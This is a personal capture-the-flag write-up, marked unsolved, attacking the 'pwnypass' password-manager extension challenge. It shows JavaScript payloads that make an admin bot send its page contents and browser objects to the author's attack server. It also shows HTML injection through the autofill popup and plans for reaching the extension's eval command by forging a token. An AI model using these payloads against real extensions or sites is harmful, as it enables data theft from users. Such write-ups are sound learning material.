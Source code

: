 ```yaml
---
created: 2024-06-29T18:39
updated: 2024-06-30T20:50
---
```

# Handout

**FAILED TO SOLVE**

I am allowed to make the bot visit any website, so...

## Analyze

The bot's window has some extra keys

```js
['event', 'fence', 'sharedStorage', 'fetchLater', 'onpageswap', 'onpagereveal', 'model']
```

The bot does the following things
- Goto https://pwnypass.c.hc.lc/login.php
- Fill up username password and submits
- Goto my URL

Sending it to `https://attack.octo-kumo.me/attack/uiuctf?extra=track({chrome:chrome})`

### Chrome
Turns out chrome is accessible.

Sending it to `https://attack.octo-kumo.me/attack/uiuctf?extra=track({a:analyze(chrome)})&no`
```json
{
    "loadTimes:function": {
        "requestTime": 1719704395.397,
        "startLoadTime": 1719704395.397,
        "commitLoadTime": 1719704395.543,
        "finishDocumentLoadTime": 0,
        "finishLoadTime": 0,
        "firstPaintTime": 0,
        "firstPaintAfterLoadTime": 0,
        "navigationType": "Other",
        "wasFetchedViaSpdy": true,
        "wasNpnNegotiated": true,
        "npnNegotiatedProtocol": "h3",
        "wasAlternateProtocolAvailable": false,
        "connectionInfo": "h3"
    },
    "csi:function": {
        "startE": 1719704395397,
        "onloadT": 0,
        "pageT": 155.841,
        "tran": 15
    },
    "app:object": {
        "isInstalled:boolean": false,
        "getDetails:function": null,
        "getIsInstalled:function": false,
        "runningState:function": "cannot_run",
        "InstallState:object": {
            "DISABLED:string": "disabled",
            "INSTALLED:string": "installed",
            "NOT_INSTALLED:string": "not_installed"
        },
        "RunningState:object": {
            "CANNOT_RUN:string": "cannot_run",
            "READY_TO_RUN:string": "ready_to_run",
            "RUNNING:string": "running"
        }
    }
}
```

Nothing interesting... Maybe add some delay?

Sending it to `https://attack.octo-kumo.me/attack/uiuctf?extra=setTimeout(()=>{track({a:genTree(document),b:allInputs()})},5000)&no`

Theres a DIV element added.

Send `https://attack.octo-kumo.me/attack/uiuctf?extra=setTimeout(()=>{track({a:document.body.innerHTML})},5000)&no`

```html
<div class="pwnypass-autofill-host" style="position: fixed !important; z-index: 9999 !important; inset: 0px !important; pointer-events: none !important;"></div>
```

hrmm...

### Background.js
```js
async function evaluate(_origin, data) {
    return eval(data);
}


const commands = {
    read,
    write,
    evaluate // DEPRECATED! Will be removed in next release.
}
```
Then I realized this.

So what's between me and that sweat `eval`? A custom token.

```js
if (await doHmac(token) !== hmac) return;                       // I need to obtain hmac from issue
let [ts, tab, origin, command] = token.split("|");              // payload be [time, tabid, mytab, 'evaluate','code','dummy']
if (parseInt(ts) + 60*5 < Math.floor(Date.now()/1000)) return;  // i have 5 minutes
if (sender.tab.id !== parseInt(tab)) return;                    // it must be from the same tab
if (await getOrigin(parseInt(tab)) !== origin) return;          // the tab must be of that origin
```

### Autofill.js

We can inject into that little popup via username and password.

```html
<meta http-equiv="refresh" content="0; url=https://webhook.site">
```

It works but is not useful.

I can also inject an iframe.

```html
<iframe src="./autofill.html?token=TOKEN&hmac=HMAC"></iframe>
```

It allows me to pass any token and hmac, but I still have to obtain their values first.

... Idk.
